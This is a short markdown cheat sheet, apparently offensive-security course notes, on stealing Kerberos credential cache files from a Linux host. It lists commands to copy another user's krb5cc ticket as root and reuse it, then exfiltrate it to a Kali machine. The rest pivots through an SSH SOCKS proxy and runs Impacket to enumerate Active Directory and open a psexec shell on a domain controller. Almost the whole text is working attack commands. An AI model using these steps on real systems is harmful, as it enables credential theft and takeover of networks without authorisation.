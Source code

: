 # Kerberos Cache File

## Attacking Credential Cache Files

* if have root access
* can copy cache file
* list cache files

```
ls -al /tmp/krb5cc_*
```

* copy the file and change the ownership

```
sudo cp /tmp/krb5cc_607000500_3aeIA5 /tmp/krb5cc_minenow  
sudo chown kali:kali /tmp/krb5cc_minenow
```

* To use this you must set the environment variable and destroy any old tickets

```
kdestroy  
klist  
export KRB5CCNAME=/tmp/krb5cc_minenow  
klist
```

* tickets can now be requested on their behalf

```
kvno MSSQLSvc/DC01.test.domain:1433
```

* klist to view the newly added ticket

### Moving the krb5 file to your kali box

```
base64 -w0 filename
echo "b64" | base64 -d > krb5cc_mine
```

Then

```
export KRB5CCNAME=/location/krb5cc_mine
```

Verify

```
klist
```

Then test access with impacket psexec

### Kerberos with Impacket

* in order to perform ticket manipulation, we need to install the kerberos linux client utilities on the kali box

```
apt install krb5-user 
```

* If you screw up the install or need to change something
  * sudo dpkg-reconfigure krb5-config
  * We’ll also have to copy the ccache file previously obtained to our local Kali box

```
scp kali@linuxvictim:/tmp/krb5cc_minenow /tmp/krb5cc_minenow
```

* Next we’ll have to update the environment variable on our local kali box

```
export KRB5CCNAME=/tmp/krb5cc_minenow
```

* We’ll need to update the hosts file to map the hostnames to IP addresses

```
sudo echo '192.168.X.Y dc01.test.domain' >> /etc/hosts
sudo echo '192.168.X.Y test.domain' >> /etc/hosts
```

* Also the source IP address will have to be correct so proxychains will need to be used
* proxychains4.conf will need to comment out DNS

```
sed -i 's/proxy_dns/\#proxy_dns/g' dns.txt
```

* set up a socks server on the pivot host

```
ssh kali@linuxvictim -D 9050
```

* now proxychains & impacket can be used to interact with the remote host

```
proxychains python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip 192.168.120.5 CORP1.COM/Administrator
```

* Gather a list of SPNs available

```
proxychains python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -k -no-pass -dc-ip 192.168.120.5 CORP1.COM/Administrator
```

* get a shell on the remote box

```
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@DC01.CORP1.COM -k -no-pass
```

* Renew

```
proxychains kinit -R
```
